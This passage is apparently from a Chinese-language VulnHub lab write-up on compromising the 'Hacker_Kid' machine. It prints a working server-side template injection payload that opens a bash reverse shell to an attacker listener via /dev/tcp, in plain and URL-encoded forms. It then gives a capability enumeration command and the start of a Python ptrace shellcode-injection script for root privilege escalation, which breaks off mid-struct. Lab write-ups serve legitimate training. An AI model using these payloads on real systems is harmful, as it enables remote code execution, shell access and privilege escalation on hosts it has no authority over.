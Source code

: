 ```python
```

一眼望去，发现目标存在 SSTI 注入。尝试注入

```python
{% import os %}{{os.system('bash -c "bash -i &> /dev/tcp/192.168.135.192/9000 0>&1"')}}

%7b%25%20%69%6d%70%6f%72%74%20%6f%73%20%25%7d%7b%7b%6f%73%2e%73%79%73%74%65%6d%28%27%62%61%73%68%20%2d%63%20%22%62%61%73%68%20%2d%69%20%26%3e%20%2f%64%65%76%2f%74%63%70%2f%31%39%32%2e%31%36%38%2e%31%33%35%2e%31%39%32%2f%39%30%30%30%20%30%3e%26%31%22%27%29%7d%7d
```

成功拿到 Shell

![](https://img.trtyr.top/images/blog/VulnHub%E9%9D%B6%E5%9C%BA%20Hacker_Kid/007%20Hacker_Kid-31.webp)

## Capability 提权

上线一下 MSF

![](https://img.trtyr.top/images/blog/VulnHub%E9%9D%B6%E5%9C%BA%20Hacker_Kid/007%20Hacker_Kid-32.webp)

查找设置了capabilities可执行文件

```sh
getcap -r / 2>/dev/null
```

![](https://img.trtyr.top/images/blog/VulnHub%E9%9D%B6%E5%9C%BA%20Hacker_Kid/007%20Hacker_Kid-33.webp)

发现 python 有相应的权限。我们查一下当前主机上以 root 用户运行的进程

![](https://img.trtyr.top/images/blog/VulnHub%E9%9D%B6%E5%9C%BA%20Hacker_Kid/007%20Hacker_Kid-34.webp)

我们这里准备了一个提权脚本，这个脚本的作用就是对 root 权限的进程注入 Python 类型 Shellcode，利用 Pythono 具备的 cap_sys_ptrace+ep 能力实现权限提升，该脚本如果执行成功，会在靶机的本地监听 5600 端口

```python
# inject.py# The C program provided at the GitHub Link given below can be used as a reference for writing the python script.
# GitHub Link: https://github.com/0x00pf/0x00sec_code/blob/master/mem_inject/infect.c

import ctypes
import sys
import struct

# Macros defined in <sys/ptrace.h>
# https://code.woboq.org/qt5/include/sys/ptrace.h.html

PTRACE_POKETEXT = 4
PTRACE_GETREGS = 12
PTRACE_SETREGS = 13
PTRACE_ATTACH = 16
PTRACE_DETACH = 17

# Structure defined in <sys/user.h>
# https://code.woboq.org/qt5/include/sys/user.h.html#user_regs_struct


class user_regs_struct(ctypes.Structure):
    _fields_ = [
        ("r15", ctypes.c_ulonglong),
        ("r14", ctypes.c_ulonglong),
        ("r13", ctypes.c_ulonglong),
        ("r12", ctypes.c_ulonglong),
        ("rbp", ctypes.c_ulonglong),
        ("rbx", ctypes.c_ulonglong),
```